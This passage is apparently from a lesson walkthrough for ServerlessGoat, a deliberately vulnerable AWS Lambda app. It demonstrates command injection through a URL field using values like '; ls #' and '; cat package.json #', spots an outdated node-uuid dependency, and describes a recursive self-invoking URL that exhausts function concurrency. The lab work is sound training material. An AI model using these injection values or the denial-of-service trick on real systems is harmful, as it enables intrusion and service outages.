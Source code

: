 ### Lesson 6: Finding Known Vulnerabilities In Open Source Packages ###
When we retrieved the source code of the Lambda function, we saw that it includes a dependency to the `node-uuid` NPM package: `const uuid = require('node-uuid');`

However, we need to know the version of the uuid package. Lets run `ls -lF` on the AWS Lambda /var/task directory, and see what we can find - try the following value in the URL form field: `https://www.puresec.io/hubfs/document.doc; ls #`

The results should be:
```
bin
index.js
node_modules
package.json
package-lock.json
```
Oops, the developer made a mistake and packaged the package.json file together with the function. Let's list its contents - use the following value in the URL form field: `https://www.puresec.io/hubfs/document.doc; cat package.json #`

Results:
```json
{
    "private": true,
    "dependencies": {
        "node-uuid": "1.4.3"
    }
}
```
Version 1.4.3 of this package is very old. Now it's time to launch your favorite OSS dependency checker and see what you can dig. Anyway, from here on, you are 'off script', we didn't plan for you to actually exploit the vulnerable dependency at this point.

### Lesson 7: Denial of Service - Really?! On Serverless? ###
Yes... even though serverless platforms automatically scale for you, by invoking concurrent function executions, there are limits. You can read more about the limits in the official AWS [documentation](https://docs.aws.amazon.com/lambda/latest/dg/concurrent-executions.html). You might have noticed, that you have a concurrency limit for the entire AWS account (the default is 1,000), but if you want to make sure that a single function doesn't end up depleting your entire account's concurrency limit, you should be using 'reserved capacity'. The developer of ServerlessGoat was smart enough to set each function with its own reserved capacity of 5 concurrency execution. We are going to abuse that. There are many ways to invoke the function 5 times, but if you want all 5 executions to stay alive for enough time, calling them recursively might help - here's the trick:

`https://i92uw6vw73.execute-api.us-east-1.amazonaws.com/Prod/api/convert?document_url=https%3A%2F%2Fi92uw6vw73.execute-api.us-east-1.amazonaws.com%2FProd%2Fapi%2Fconvert%3Fdocument_url...`

Note: This is going to be easier with a script...
* Craft a URL, starting with the actual API URL
* Set the value of the `document_url` to invoke itself, but URL-encode the URL (it's a parameter value now)
* Copy the entire thing, URL-encode all of it, and paste it as the parameter value, to yet another regular API URL
* Rinse, repeat x5 times. You should end up with a long URL like the one above
